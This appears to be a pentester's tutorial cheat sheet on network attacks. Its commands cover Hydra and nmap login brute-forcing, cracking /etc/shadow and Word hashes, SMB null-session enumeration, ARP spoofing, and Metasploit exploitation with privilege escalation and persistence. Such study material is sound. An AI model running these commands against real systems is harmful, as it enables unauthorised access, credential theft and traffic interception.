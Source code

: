 # Network Attacks

[Password Dictionary](https://wiki.skullsecurity.org/Passwords)

Installing SecLists on kali

```apt-get install seclists```

```/usr/share/seclists/Passwords``` location to the seclists.

## Authentication cracking tools

* Hydra
  It is a fast , parallelized network authentication cracker, supports various protocols.
  
  ```
  # Syntax
  hydra -L <usernamefile.txt> -P <Passwordfile.txt> <service://server> <options>
  
  # Example
  hydra -L users.txt -P pass.txt -t 10  telnet://10.10.10.10
  
  # Attacking login form
  hydra victim.site http-post-form "/login.php:usr=^USER^&pwd=^PASS^:invalid credentials" -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/rockyou-15.txt -f -V
  
  -f  : stops after first valid result
  -V  : verbosity
  
  # SSH
  hydra 192.167.102.121 ssh -L /user.txt -P /pass.txt
  ```
  ```
  # SSH auth using nmap
  nmap --script ssh-brute --script-args userdb=/root/user.txt,passdb=/usr/share/nmap/nselib/data/passwords.lst -p22 192.168.121.102
  ```
  Cracking hashes using John the Ripper
  
  ```
  john /etc/shadow --wordlist=/path/to/password/wordlist/file.txt
  ```
  
  Crack password of Microsoft Word file using John the Ripper and Hashcat.
  
  ```
  # We are using office2john.py python script for this job. This python extract crackable information from the Microsoft Office .docx file.
  
  /usr/share/john/office2john.py MS_Word_Document.docx > word.hash
  john --wordlist=/path/to/password/wordlist/file.txt word.hash
  
  # Using hashcat cracking hashes of word file
  
  Remove "MS_Word_Document.docx:" from "word.hash" file.
  hashcat -m 9600 -a 0 --status word.hash /path/to/password/wordlist/file.txt --force
  
  -m 9600 : Set method to MS Office 2013
  --status: Enable automatic update of the status screen
  ```

## Windows Shares

**NetBIOS** can supply some of the following information when querying a computer:

- Hostname
- NetBIOS name
- Domain
- Network Shares

Badly configured shares exploitation can lead to:

- Information disclosure
- Unauthorized file access
- Information leakage used to mount a target attack

**Null session** attacks can be used to enumerate a lot of information. Attackers can steal information about:

- Passwords
- System users
- System Groups
- Running system processes

```
# Most common command to display information about target
nbtstat -A <target>
```

```
# Once the attacker confirms the file server is running on the target machine, they can further enumerate the shares by using NET VIEW command:
NET VIEW <target>

# Then we can connect to the shares using the following NET USE command.
NET USE \\<target IP>\IPC$ '' /u:'' (It tells windows to connect to the IPC$ share with empty username and password)
```

```
# Using Samba Suite on Linux

# On linux machines we can use nmblookup tool to enumerate about the shares, it works in the same way as NBTSTAT:
nmblookup -A <target>

# We can use smbclient, which comes with Samba suite to access windows shares and also displays hidden administrative shares. It's and FTP-like client.

smbclient -L //<target ip> -N

-L  : allows to look at what shares are available on a target
-N  : forces tool to not ask for password

# Checking for Null Sessions
smbclient //<target IP>/IPC$ -N
smbclient //<target IP>/C$ -N

# Exploiting Null Session with Enum utility
enum -S <target IP> (-S enumerates the shares of a machine)
enum -U <target IP> (-U enumerate the users)
enum -P <target IP> (-P checks passowrd policy)

# Exploiting Null Session with Winfo utility
winfo <target IP> -n

# Exploiting Null Session with Enum4linux utility
enum4linux -a <target IP> (most common command, runs all options)
enum4linux -n <target IP> (nmblookup)
enum4linux -P <target IP> (enumerate password policy)
enum4linux -S <target IP> (-S enumerates the shares of a machine)
enum4linux -s /usr/share/enum4linux/share-list.txt <target IP> (-s brute force to enumerate shares on the machine)

# Maping shares
smbmap -H <target IP>

# Enumerating shares using Nmap
nmap --script smb-enum-shares <target IP> (enumerate shares)
nmap --script smb-enum-users <target IP> (enumerate users)
nmap --script smb-brute <target IP> (brute forces username and passwords)
```

By default enum4linux performs:

- User enumeration
- Share enumeration
- Group and member enumeration
- Password policy extraction
- OS information detection
- A nmblookup run
- Printer information extraction

## ARP Spoofing 

```
# Enabling IP forwarding, tells machine to forward the intercepted packets to the real destination.
echo 1 > /proc/sys/net/ipv4/ip_forward
```

```
# ARP spoofing syntax
arpspoof -i <interface> -t <target> -r <host>

-i  : interface to use eth0 or tap0 (when connected to vpn)
target and hosts are victims IP address
```

```
# To intercept the traffic between 192.168.4.11 and 192.168.4.16 use the below command.
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.4.11 -r 192.168.4.16

Then run the wireshar to intercept the traffic.
```

## Metasploit
It is open-source framework used for exploitation.

Basic workflow to exploit a target b using MSFConsole is:

- Identifying a vulnerable service
- Searching for a proper exploit for that service
- Loading and configuring the exploit
- Loading and configuring the payload you want to use
- Running the expploit code and getting access to the vulnerable machine

```
# Launching metasploit
msfconsole

# Update metasploit
msfupdate

# Searching for exploit
search <searchterm>

example:
search OpenSSH
search OpenSSH vsftpd

# Configuring an Exploit
use /path/to/the/exploit/vsftpd

# After selecting exploit, information about exploit can be viewed by:
info
show options

# We need to set required info using the following command:
set [option] [value]

example:
set RHOST 10.10.10.10

# Configuring payload
show payloads
set payload /paath/to/the/payload
show options
set [options] [value]
exploit

# Obtain privilege escalation "SYSTEM" privilege on compromised windows machine
getsystem
getuid

# Maintaining access using Metasploit framework using

# Backgroun the current session using:
background

# Use the exploit to maintain access:
exploit/windows/local/persistence_service
show options
set SESSION <session ID>
exploit

# Metasploit Handler:
exploit/multi/handler
```
